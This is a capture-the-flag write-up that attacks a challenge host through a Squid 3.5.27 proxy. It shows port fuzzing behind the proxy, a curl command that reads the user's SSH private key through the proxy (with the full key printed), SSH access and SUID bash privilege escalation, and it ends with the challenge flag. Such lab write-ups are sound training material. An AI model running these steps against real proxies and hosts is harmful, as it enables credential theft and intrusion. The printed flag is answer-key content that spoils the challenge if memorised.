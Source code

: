 Challenge:

![Challenge](images/1.challenge.PNG)

Visiting the page, we can see it is running squid proxy 3.5.27.

I did some research into fuzzing behind squid proxy and found this article by [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

From there, I found a repository for [Spose](https://github.com/aancw/spose)

After a slow process of adding blocks of ports to the script, I finally found port 50000 was open.

![Port 50000](images/3.fuzzingbehindproxy.PNG)

Sending a curl to the address reveals that it is performing a directory listing on the other end.

![Proxy](images/4.checkingproxy.PNG)

One of the files that stands out here is the ```.docker-entrypoint.sh``` file.

From this, it looks we have a socat find shell sitting on the other side on port 50000 and it's running as the user "user".  Let's abuse this knowledge and search for an SSH key.  A quick curl to ```curl -x http://challenge.ctf.games:32611 http://127.0.0.1:50000/home/user/.ssh/id_rsa``` gives us the following private key:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
JauN0ipko/W2sAAAAJa2FsaUBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----
```

I saved the file to a file named id_rsa and changed permissions to 600 to restrict the key or SSH throws a fit.  I then attempted to connect to the machine via SSH through the proxy.  The fine people at [Stack Overflow](https://stackoverflow.com/questions/19161960/connect-with-ssh-through-a-proxy) were very helpful here.

```ssh -i id_rsa user@127.0.0.1 -o "ProxyCommand=connect-proxy -H challenge.ctf.games:32611 %h %p"```

![SSH through proxy](images/7.sshthroughproxy.PNG)

After I connected, I did a quick search for SUID bits on binaries as that's one of the quickest ways to escalate and the challenge stated escalation was required.

```find / -perm -4000 2>/dev/null```

The bit is set on bash, so escalating to root is as simple as ```/bin/bash -p```

From here we check /root and find our flag.

![Flag](flag.PNG)

Flag: ```flag{c9bbd4888086111e9f632d4861c103f1}```